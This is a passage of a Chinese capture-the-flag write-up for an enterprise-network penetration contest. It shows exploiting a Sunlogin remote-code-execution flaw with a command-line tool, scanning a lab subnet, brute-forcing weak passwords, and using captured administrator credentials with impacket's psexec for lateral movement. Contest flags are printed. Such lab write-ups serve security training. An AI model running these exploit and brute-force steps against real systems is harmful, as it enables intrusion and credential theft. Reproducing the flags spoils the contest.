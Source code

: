 ![image-20220528125314000000-1656056139749501.png](img/中小型企业环境网络安全渗透赛 local/81a639e49beb6f0e8ca95e026d209e31.png)

存在向日葵rce漏洞

```sh
xrkrce.exe -h 192.168.51.53 -p 49670 -t rce -c "whoami"
#49670为扫描出的端口，以实际为准
```

![image-20220528125344000000-1656056141343237.png](img/中小型企业环境网络安全渗透赛 local/94267fe723adf2b13988eaccd637a5a4.png)

PC-liming主机的flag文件位置：`c:\users\administrator\desktop\flag.txt`

```
flag{7DD8-DA7C-62F0-A740-71D4-ED46-950C-3BC8}
```



##### 任务11：域内用户渗透（T1596-主动扫描、T1078-利用有效账户凭据）

尝试对192.168.51.0/24网段扫描

```sh
s.exe TCP 192.168.51.1/24 21,22,80,445,3306,1433,3389 512
```

![image-20220528125410000000-1656056142887108.png](img/中小型企业环境网络安全渗透赛 local/9e721cd677281a84216c057086f4e12c.png)

弱密码爆破，工具位置：

`C:\Users\Administrator\Desktop\工具\内网渗透\超级弱口令检查工具\SNETCracker.exe`

字典位置：

`C:\Users\Administrator\Desktop\工具\字典\passwordDict\top500.txt`

爆破结果如下：

![image-20220528125358000000-1656056144488672.png](img/中小型企业环境网络安全渗透赛 local/7eec36c8434c18f31b1ecccfad3bcbc3.png)

成功获取IP:192.168.51.33用户名：administrator密码：jason@123

使用psexec进行横向移动，位置：

`C:\Users\Administrator\Desktop\工具\内网渗透\impacket-master\impacket-master\examples\psexec.py`

工具目录打开终端执行命令：

```python
python3 psexec.py ./administrator:jason@123@192.168.51.33 
```

![image-20220528125422000000-1656056146243956.png](img/中小型企业环境网络安全渗透赛 local/8f4ce68c7b18b02342fbb3c68bb0e79c.png)

Jason主机的flag文件位置：`c:\users\jason\desktop\flag.txt`

```
flag{76D4-523B-9B4E-CF39-262F-3791-28C1-93B8}
```
